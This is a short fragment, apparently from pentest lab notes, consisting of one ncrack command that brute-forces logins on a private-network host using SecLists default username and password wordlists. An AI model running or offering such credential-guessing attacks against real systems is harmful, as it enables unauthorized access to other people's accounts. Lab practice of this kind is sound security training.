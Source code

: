 `sudo ncrack -U /usr/share/wordlists/SecLists/Usernames/cirt-deefault-usernames.txt -P /usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt 10.0.2.5 -v`